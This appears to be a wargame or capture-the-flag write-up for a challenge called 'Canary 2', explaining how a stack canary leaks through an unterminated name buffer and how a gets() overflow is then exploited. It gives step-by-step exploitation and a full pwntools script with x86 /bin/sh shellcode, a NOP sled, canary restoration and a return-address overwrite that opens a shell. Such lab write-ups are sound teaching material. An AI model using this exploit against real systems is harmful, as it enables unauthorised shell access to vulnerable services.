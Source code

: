 ref: 5 | Canary 2 | shellcrack
===========================

General overview of problems faced
-------------------------------------
- I was having a hard time understanding why the canary was printing sometimes and wasn't at other times. I then realised it was because of how %s worked and that at times it was seeing a end of line and other times wasn't and therefore printed the canary after the buffer
- Took a few attempts to realise the canary was 8 bytes long

List of vulnerabilities
--------------------
1. The program can print out the canary if the user enter 16 chars of input as name. When attempting to print out the name of the user, the program will also print the canary.
2. The program uses a fixed buffer and takes inputs using gets. Therefore the buffer can overflow and it is possible to overwrite memory. Since we can get the canary from the above vulnerability, we can use that to bypass it.

Steps to exploit
------------------
1. Enter 16 bytes of non-null chars as input for the name
2. Save the returned canary
3. Save the given buffer pointer
4. Enter 23 bytes of NOP operators ('\x90') + 25 bytes of shellcode and then the 8 byte canary saved from [step 2]. Add an additional 20 bytes of data for the offset between the canary and the return address. And then add the pointer to your buffer in little endian format.
5. Congratulations! You now have a shell!

Script/Command used
------------------
```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

from pwn import *

NOP_OPERATOR = '\x90'
SHELLCODE = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80'
LEN_SHELL = len(SHELLCODE)

def main():
    target = "localhost"
    port = "6002"

    r = remote( target, port )
    r.send("A" * 16)
    r.recvuntil("This is the 9447 wargaming gateway, ")
    resp = r.recvline()

    canary = resp[16:-3].strip()

    print "low :", canary[:4].encode('hex')
    print "high :", canary[4:].encode('hex')

    high_canary = int(canary[:4].encode('hex'), 16)
    low_canary = int(canary[4:].encode('hex'), 16)

    r.recvuntil("the buffer[")
    buf = int(r.recvline()[:-3].strip(), 16)
    buf_len = 48
    offset = 20 # 0xffffd5cc - 0xffffd5b0 = 28 (20 offset + 8 canary)

    r.sendline(
        NOP_OPERATOR * (buf_len - LEN_SHELL)
        + SHELLCODE
        + p32(high_canary, endian='big')
        + p32(low_canary, endian='big')
        + NOP_OPERATOR * offset
        + p32(buf)
    )

    r.interactive()

if __name__ == '__main__':
    main()
```
